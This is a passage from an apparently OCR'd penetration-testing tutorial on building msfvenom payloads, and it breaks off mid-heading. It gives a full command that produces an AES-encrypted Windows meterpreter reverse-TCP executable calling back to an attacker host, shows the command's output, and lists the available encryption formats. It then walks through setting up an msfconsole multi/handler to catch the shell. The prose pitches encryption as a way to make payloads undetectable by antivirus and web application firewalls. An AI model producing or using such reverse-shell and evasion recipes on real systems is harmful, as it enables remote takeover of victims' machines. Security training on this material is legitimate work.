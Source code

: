 ```

```

# **Payloads with Encryptions**

You can encrypt the payloads using some of the encryption methods available in MSFVenom. Use **–encrypt** flag to make the payload encrypted or encoded. You can also make the payload undetectable by the AVs and WAFs by encrypting the payload.

```
$msfvenom --encrypt aes256 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes

```

# **List of Encrypt methods**

```
$msfvenom --list encrypt

Framework Encryption Formats [--encrypt ]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor

```

# **How to Use these Paylaods in MSFConsole**

You can get the connect to the target machine using msfconsole and metasploit handler.

```
# msfconsole commands
msf> use exploit/multi/handler
msf> set PAYLOAD
msf> set RHOST
msf> set LHOST
msf> set LPORT
msf> exploit -j
```

# **F**